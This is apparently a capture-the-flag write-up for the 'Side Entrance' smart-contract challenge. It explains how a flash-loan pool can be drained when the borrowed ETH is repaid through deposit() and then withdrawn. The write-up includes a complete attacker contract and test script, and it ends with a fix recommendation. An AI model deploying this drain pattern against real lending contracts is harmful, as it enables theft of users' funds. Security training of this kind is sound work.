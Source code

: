 # Side-Entrance

## Introduction
The goal of this box is to siphon 1000ETHs in an existing lending pool.

## Code Breakdown
Similiar to Truster box, it only has 1 smart contract ***SideEntranceLenderPool.sol***.
Let's start by looking at the variables.
```
using Address for address payable;
mapping (address => uint256) private balances;
```
The address variable uses openzeppelin library to offer more functions.
Reference: <https://docs.openzeppelin.com/contracts/3.x/api/utils#Address>

Whereas, a simple hashmap is made for ***balances*** where each address contains *x* amount of tokens in integer format.
Reference: <https://medium.com/upstate-interactive/mappings-in-solidity-explained-in-under-two-minutes-ecba88aff96e>

The first function is an interface. It is empty and it contains an ***execute()*** function.
```
interface IFlashLoanEtherReceiver {
    function execute() external payable;
}
```

The next function is ***desposit***.
It is simple where it stores the value directly into the hashmap.
```
function deposit() external payable {
    balances[msg.sender] += msg.value;
}
```

Next, a ***withdraw()*** function is created for users to withdraw their tokens out to their wallet. Even though it does not have any reentrancy guard, it follows the best practice outlined by Solidity documentation - [Checks-Effect-Interactions Pattern](https://docs.soliditylang.org/en/v0.8.16/security-considerations.html#use-the-checks-effects-interactions-pattern).

```
function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```

Lastly, ***flashLoan(uin256 amount)*** function is created. 
As usual, it checks if the pool have sufficient ETH for borrowing.
```
uint256 balanceBefore = address(this).balance;
require(balanceBefore >= amount, "Not enough ETH in balance");
```

Next, it executes an interface function .
```
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

Lastly, it checks if the loan is returned to the lending pool.
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

## Hints
First and foremost, there are two pool of funds - lending pool and individual balance pool. Both are identified based on their address. Here's the problem, the lending pool and individual balance pool have overlaps. 

Consider this scenario:
A lending pool has an address.
Since it's an address, it have an individual lending balance pool too.
Let's assign 10 ETH to the lending pool. Notice that the individual Balance pool is 0.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacler Balance |
|------|------|------|------|
| 10 ETH | 0 ETH | 0 ETH | 0 ETH |

This essentially means ```address(this).balance != balances(address(this))```.
Here's the loophole, if we ***deposit*** 10 ETH to the *Lending Individual Balance*, the *Lending Pool* will still reflect 10 ETH as the ETH was not transferred away from the *Lending Pool*. However, the function will add 10 ETH into the hashmap which will increase *Lending Individual Balance* by 10 ETH. Thus, both *Lending Pool* and *Lending Individual Balance* will have 10 ETHs respectively. 

```
function deposit() external payable {
    balances[msg.sender] += msg.value;
}
```

Understanding this concept, we can also bypass the final check in the ***flashLoan*** function as ***address(this).balance*** refers to *Lending Pool*.
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

The result after flashLoan should look like this.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 10 ETH | 10 ETH | 0 ETH | 0 ETH |

Next, we'll withdraw ETHs with the function ***withdraw()***. The function will remove all ETHs from *Lending Individual Balance* and transfer ETHs from *Lending Pool* to ***msg.sender***. ***msg.sender*** should be coming from *Attacker Balance Pool*.
Note: You may be thinking, ***Address.sol*** requires 2 parameters for the function ***sendValue*** yet I only see 1. This should clarify any doubts. ```payable(msg.sender).sendValue(amountToWithdraw);``` is the same as ```Address.sendValue(payable(msg.sender), amountToWithdraw);```
```
function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```
Using that function should result in this.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 0 ETH | 0 ETH | 10 ETH | 0 ETH |

Now, we'll shift the 10 ETHs from *Attacker Balance Pool* to *Attacker Balance* with a simple transaction which will yield the final result

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 0 ETH | 0 ETH | 0 ETH | 10 ETH |


## Solutions
Following the hints above, your smart contract should look similar to this.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";
import "../side-entrance/SideEntranceLenderPool.sol";

/**
 * @title SideEntranceAttacker
 * @author BingleBangle-BH's attacker contract
 */

 contract SideEntranceAttacker{
    using Address for address payable;
    SideEntranceLenderPool public immutable pool;

    constructor (SideEntranceLenderPool _pool){
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() public payable{
        pool.deposit{value: msg.value}();
    }

    function stealFunds() external{
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        address _owner = msg.sender;
        payable(_owner).sendValue(address(this).balance);
    }

    receive () external payable {}
 }
```

Here's the javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const SideEntranceAttack = await ethers.getContractFactory('SideEntranceAttacker', attacker);
    this.attackpool = await SideEntranceAttack.deploy(this.pool.address);
    await this.attackpool.stealFunds();
});
```
## Recommendations
Do not use allow two pools of funds to exist in a single smart contract. Use openzeppelin libraries such as[ERC20](https://docs.openzeppelin.com/contracts/4.x/erc20) to manage the funds.